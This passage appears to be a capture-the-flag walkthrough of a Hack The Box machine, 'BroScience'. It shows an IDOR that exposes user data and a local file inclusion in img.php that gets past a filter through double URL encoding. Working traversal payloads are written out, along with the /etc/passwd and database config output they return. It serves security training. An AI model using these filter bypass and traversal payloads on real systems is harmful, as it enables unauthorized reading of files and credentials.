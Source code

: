 ### IDOR

While browsing the page we were able to identify an IDOR that exposes  
- E-Mail Address
- IS Activated
- IS Admin

```text
# Just change the ID
https://broscience.htb/user.php?id=1
```

### LFI

While checking [https://broscience.htb/includes/](https://broscience.htb/includes/) we discover a php file named **img.php**.
Opening that page will tell us  

```bash
Error: Missing 'path' parameter.
```

Basic **LFI** will fail and tell us **Error: Attack detected.**  
We have to double URL Encode it so that it will work  

```text
# Failing
https://broscience.htb/includes/img.php?path=../../../../etc/passwd
```

#### /etc/passwd

```text
https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

```bash
# We identified "bill" as user and it seems that postgresql is installed
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

#### /var/www/html/includes/db_connect.php
```text
https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%39%25%36%65%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%37%33%25%32%66%25%36%34%25%36%32%25%35%66%25%36%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%32%65%25%37%30%25%36%38%25%37%30
```

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "CENSORED";
$db_pass = "CENSORED";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
```
